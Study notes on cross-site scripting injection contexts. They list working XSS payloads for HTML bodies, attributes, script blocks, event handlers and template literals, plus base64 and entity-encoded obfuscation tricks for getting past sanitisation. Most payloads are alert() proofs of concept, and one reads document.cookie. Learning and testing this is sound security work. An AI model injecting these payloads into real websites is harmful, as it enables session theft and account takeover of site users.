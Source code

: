 <h1><u>Cross-site script contexts</u></h1>

When testing for reflected and stored XSS
the key is to identify its context.
by context we mean exactly the location of syntax which
it exit with in. or in other words the place of injected 
input in the front end code and figuring out what payload 

<h2><u>XSS between HTML tags</u></h2>

When the XSS injected context is b/w html tages, 
you need to inject new html tags designed to trigger some 
javascript


```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

<h2><u>XSS in HTML tags attributes</u></h2>

<b>when xss is in a tag attribute:</b>
1. First try to terminate the attribute value, close the tag, and
   and inject new tag
   ```
   "><script>alert(1)</script>
   "><script>alert(document.domain)</script>
	```

2. Alot of times angle brackets are blocked inject 
   a attribute and the value that runs a javascript.
   
`" autofocus onfocus=alert(document.domain) x="`

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup

3. sometimes xss can be placed in scrip table context.
you can execute js without needing to terminate the tag 
like:
`<a href="javascript:alert(document.domain)">`

4. even encounter websites with which you can inject 
xss in to it's tags and cause a javascript. injections
are possiable even with in tags which doesn't fire automatically
like when using `accesskey` which only runs a script in `<input>`
tag when certain combination of keys are pressed.

`<input type="hidden" accesskey="X" onclick="alert(1)">`
provided you can persuade the victim into pressing the key combination. On Firefox Windows/Linux the key combination is ALT+SHIFT+X and on OS X it is CTRL+ALT+X. You can specify a different key combination using a different key in the access key attribute.

<h2><u>XSS into JavaScript </u></h2>

<h3>Terminating the existing script</h3>

lets consider the following:


```
<script>
	var input = 'controllable data here'; 
</script>
```

you can terminate the JavaScript:
`'</script><img src='#' onerror=alert(document.domain)>`

This will work because browser first parse html tags to identify 
page elements; including blocks of script. it then later performs 
the JavaScript parsing and runs the JavaScript 


<h3>Making use of html encoded characters</h3>
in case injection resides in side a event handler, you can use html-encode
quotation marks to bypass the application sanitation and break out the string 
you control

for example if you can control the value `foo` in:

```
<a href="#" onclick="var a = 'foo'; 
```

and the application is properly escaping quotation marks and
backslashes in your input:
`for&apos;; alert(1);//';`


The fact that event handlers are HTML-decoded before being executed
as JavaScript

`<a href="#" onclick="var a = 'foo&apos;; alert(1);//';`

even handlers are html decoded before being executed as 
JavaScript represents an important caveat to standard 
recommendation of HTML encoding user input originally made
to prevent XSS. Can be used by hackers in syntactic context, 
html encoding is not gonna always protect.


<h3><u>XSS in javascript template literals</h3></u>

but first javascript lesson:
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals

basically if xss injection is in JavaScript 
and in \`\` then you must do insert a payload with
format of ${...} for example:


```
<script> 

var input = `controllable data here`;  

</script>
```

now the payload will be for poping up 
a alert `${alert(1)}` and `${alert(document.cookie)}`


<h2><u>Client-Side template Injection</u></h2>


check out: [This file](obsidian://open?vault=Web-hacking-techniques&file=XSS%2Fclient-side-templete%2FClient-Side%20temeplate%20injection)


<h2><u>obfuscation</u></h2>

Data protocol inside script with base64
`<script src=data:text/javascript;base64,YWxlcnQoMSk=></script>`

Data protocol, encoded with html entity and base64

`<script src=data:text/javascript;base64,%59%57%78%6c%63%6e%51%6f%4d%53%6b%3d></script>`

the payload when decode from html entity revels
a base64 string when decoded again with base64 it 
then becomes 
`alert(1)`

with img.

```
<img src=x onerror=location=atob`amF2YXNjcmlwdDphbGVydChkb2N1bWVudC5kb21haW4p`>
```
